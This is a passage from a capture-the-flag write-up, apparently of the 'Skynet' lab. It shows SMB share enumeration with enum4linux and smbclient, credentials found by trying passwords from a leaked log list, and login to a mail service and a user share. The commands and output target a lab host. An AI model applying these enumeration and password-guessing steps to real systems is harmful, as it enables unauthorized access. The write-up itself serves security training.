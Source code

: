 - Now we need to find the credentials.
- First we try default credentials admin/admin —> Fail.
- Before we scan `smb` service with `enum4linux` :

```bash
enum4linux -a 10.10.250.72
[+] Attempting to map shares on 10.10.250.72

//10.10.250.72/print$	Mapping: DENIED Listing: N/A Writing: N/A
//10.10.250.72/anonymous	Mapping: OK Listing: OK Writing: N/A
//10.10.250.72/milesdyson	Mapping: DENIED Listing: N/A Writing: N/A

[E] Can't understand response:

NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
//10.10.250.72/IPC$	Mapping: N/A Listing: N/A Writing: N/A
```

- We use `smbclient` try to login to credential anonymous.

```bash
smbclient //10.10.250.72/anonymous
Password for [WORKGROUP\zicco]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 23:04:00 2020
  ..                                  D        0  Tue Sep 17 14:20:17 2019
  attention.txt                       N      163  Wed Sep 18 10:04:59 2019
  logs                                D        0  Wed Sep 18 11:42:16 2019

		9204224 blocks of size 1024. 5831528 blocks available
smb: \>
```

- We know the user is milesdyson and now we find the password by smbclient.
- 
![Untitled 2](https://github.com/user-attachments/assets/6ee925a4-3165-4b0d-86b7-5690c5ddaa93)

- We have the list password in log1.txt and we try each password to find the right password

—> Password: cyborg007haloterminator

- Back to the `/squirrelmail` to login again:

![Untitled 3](https://github.com/user-attachments/assets/bbed55f9-94e5-4bc3-884f-8158dfbfe320)

- Now we see the mail skynet with title “Samba Password Reset” —> This is the Password smb of account milesdyson.

![Untitled 4](https://github.com/user-attachments/assets/6d90880c-e4cb-4334-8803-d95a920fbb3a)

- Back to login smbclient with the credential milesdyson

```bash
smbclient -U milesdyson //10.10.250.72/milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 16:05:47 2019
  ..                                  D        0  Wed Sep 18 10:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 16:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 16:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 16:05:14 2019
  notes                               D        0  Tue Sep 17 16:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 16:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 16:05:14 2019

```